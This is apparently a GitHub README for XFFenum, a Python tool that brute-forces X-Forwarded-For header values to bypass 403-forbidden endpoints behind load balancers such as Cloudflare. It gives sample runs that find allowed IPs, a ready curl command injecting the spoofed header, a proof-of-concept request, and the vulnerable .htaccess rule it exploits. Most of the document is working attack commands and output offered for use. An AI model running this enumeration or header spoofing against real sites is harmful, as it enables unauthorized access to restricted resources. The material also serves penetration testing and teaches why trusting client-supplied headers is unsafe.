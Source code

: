 # XFFenum

A simple tool to bypass 403 forbidden end-points behind load balancers (Cloudflare) based on X-Forwarded-For header

Based on the [enumXFF](https://github.com/infosec-au/enumXFF) by @infosec_au

### Example

```
vavkamil@localhost:~/XFFenum$ python3 xffenum.py -u https://xss.vavkamil.cz/xff -i 192.168.0.0/16
 __  _______ _____                          
 \ \/ /  ___|  ___|__ _ __  _   _ _ __ ___  
  \  /| |_  | |_ / _ \ '_ \| | | | '_ ` _ \ 
  /  \|  _| |  _|  __/ | | | |_| | | | | | |
 /_/\_\_|   |_|  \___|_| |_|\__,_|_| |_| |_|
 X-Forwarded-For [403 forbidden] enumeration

[i] Using URL: https://xss.vavkamil.cz/xff
[i] Using IP range: 192.168.0.0/16
[i] IP addresses in range: 65536
[i] Iterations required: 13108 

673it [00:34, 21.69it/s]

[!] Access granted with 192.168.13.37, 192.168.13.38, 192.168.13.39, 192.168.13.40, 192.168.13.41
[!] curl https://xss.vavkamil.cz/xff -H "X-Forwarded-For: 192.168.13.37, 192.168.13.38, 192.168.13.39, 192.168.13.40, 192.168.13.41"
```

#### Proof of Concept

```
vavkamil@localhost:~$ curl -i https://xss.vavkamil.cz/xff
HTTP/2 403 
date: Wed, 07 Aug 2019 20:02:41 GMT
content-type: text/html; charset=iso-8859-1
set-cookie: __cfduid=d77da0ad10e7a360cce4a28311784c12d1565208161; expires=Thu, 06-Aug-20 20:02:41 GMT; path=/; domain=.vavkamil.cz; HttpOnly; Secure
expect-ct: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
server: cloudflare
cf-ray: 502bd9832d69c2db-FRA

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /xff
on this server.<br />
</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at xss.vavkamil.cz Port 80</address>
</body></html>
```

##### .htaccess

```
Order Deny,Allow
Deny from all
SetEnvIf X-Forwarded-For "192.168.13.37" AllowAccess
Allow from env=AllowAccess
```

### Usage

```
vavkamil@localhost:~/XFFenum$ python3 xffenum.py -h
 __  _______ _____                          
 \ \/ /  ___|  ___|__ _ __  _   _ _ __ ___  
  \  /| |_  | |_ / _ \ '_ \| | | | '_ ` _ \ 
  /  \|  _| |  _|  __/ | | | |_| | | | | | |
 /_/\_\_|   |_|  \___|_| |_|\__,_|_| |_| |_|
 X-Forwarded-For [403 forbidden] enumeration

usage: xffenum.py [-h] -u URL -i IP_RANGE [-t THREADS] [--no-verify-ssl]

X-Forwarded-For [403 forbidden] enumeration

optional arguments:
  -h, --help       show this help message and exit
  -u URL           Forbidden URL patch to scan
  -i IP_RANGE      Signe IP or range to use
  -t THREADS       number of threads (default: 5)
  --no-verify-ssl  Ignore any and all SSL errors.

Have a nice day :)
```

## References

https://shubs.io/enumerating-ips-in-x-forwarded-headers-to-bypass-403-restrictions/  
https://blog.ircmaxell.com/2012/11/anatomy-of-attack-how-i-hacked.html
